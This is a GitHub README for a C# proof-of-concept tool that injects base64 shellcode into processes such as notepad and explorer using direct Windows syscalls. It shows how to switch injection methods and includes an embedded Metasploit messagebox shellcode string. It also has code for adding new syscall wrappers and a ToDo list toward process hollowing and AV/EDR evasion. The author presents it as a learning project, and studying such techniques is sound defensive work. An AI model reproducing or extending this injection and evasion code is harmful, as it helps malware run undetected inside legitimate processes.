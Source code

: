 # directInjectorPOC

Small program written in C#, compatible with .NET >= v3.5 . Only x64. Works from ws 2008 up to the latest windows 10 update. 

Created as a way to learn more about direct syscalls and their implementation in C#. 

The program uses direct syscalls to perform the shellcode allocation/injection and the remote thread creation. The only imports are GetSystemInfo, RtlGetVersion and VirtualProtectEx.

The shellcode can be easily generated using tools like donut (https://github.com/TheWover/donut/)

### Usage: 

By default the program injects into "notepad" using the ALLOCWRITE write method. This can be easily modified by changing line 18 
```
Inject("notepad", osV, ALLOCWRITE);
```
can be changed to 
```
Inject("explorer", osV, OPENSEC);
```
to inject the shellcode into explorer.exe using the NtMapViewOfSection method. 

The shellcode must be in base64 and assigned to the "s" variable on line 91
```
//msf messagebox x64
string s = @"/EiB5PD////o0AAAAEFRQVBSUVZIMdJlSItSYD5Ii1IYPkiLUiA+SItyUD5ID7dKSk0xyUgxwKw8YXwCLCBBwckNQQHB4u1SQVE+SItSID6LQjxIAdA+i4CIAAAASIXAdG9IAdBQPotIGD5Ei0AgSQHQ41xI/8k+QYs0iEgB1k0xyUgxwKxBwckNQQHBOOB18T5MA0wkCEU50XXWWD5Ei0AkSQHQZj5BiwxIPkSLQBxJAdA+QYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVo+SIsS6Un///9dScfBAAAAAD5IjZX+AAAAPkyNhQMBAABIMclBukWDVgf/1UgxyUG68LWiVv/VZ2F0bwBNZXNzYWdlQm94AA==";
```

### Dev:

Take a look at syscalls.cs. To create a new syscall:
- Add the syscall ID to each windows version inside the sysDic dictionary.  
- Create its function delegate inside the Delegates struct
- Create a function thar runs GetDelegateForFunctionPointer and invokes the delegate functions (you can just copy paste any of the current ones and change them a little bit to adjust your needs) 
- If needed, create the required structs inside nativeStructs.cs

For example, if we would like to implement NtClose we can do the following:
```
...
            { "win10-1507", new Dictionary<string, byte>()
                {
                    { "openprocess",0x26},
                    { "allocatevirtualmem", 0x18},
                    { "writevirtualmem", 0x3A},
                    { "createremthread", 0xB3},
                    { "createsection", 0x4A },
                    { "mapviewofsec", 0x28 },
                    { "close", 0x0F }
                }
            },
...
```
```
public struct Delegates{
...
            [SuppressUnmanagedCodeSecurity]
            [UnmanagedFunctionPointer(CallingConvention.Cdecl)]
            public delegate int NtClose(IntPtr handler);
...
```
```
        public static NTSTATUS NtClose(IntPtr handle, string os)
        {
            byte[] syscall = syscallSkeleton;
            syscall[4] = sysDic[os]["close"];

            unsafe
            {
                fixed (byte* ptr = syscall)
                {

                    IntPtr memoryAddress = (IntPtr)ptr;

                    if (!VirtualProtectEx(Process.GetCurrentProcess().Handle, memoryAddress,
                        (UIntPtr)syscall.Length, 0x40, out uint oldprotect))
                    {
                        throw new Win32Exception();
                    }

                    Delegates.NtClose myAssemblyFunction = (Delegates.NtClose)Marshal.GetDelegateForFunctionPointer(memoryAddress, typeof(Delegates.NtClose));

                    return (NTSTATUS)myAssemblyFunction(handle);
                }
            }
        }
```

##### ToDo:

  - Implement more ways to write our shellcode in a remote process (process hollowing, dll hollowing, etc)
  - New execution methods (steal them from pinjectra :) )
  - Try to avoid the use of VirtualProtectEx when allocating our shellcode
  - Try catch everything just in case

  
##### Links of interest:

  - https://ired.team/offensive-security/code-injection-process-injection/ntcreatesection-+-ntmapviewofsection-code-injection
  - https://ired.team/offensive-security/code-injection-process-injection/process-injection
  - https://github.com/TheWover/donut/
  - https://github.com/b4rtik/SharpMiniDump/
  - https://github.com/outflanknl/Dumpert (tool)  https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/ (blog)


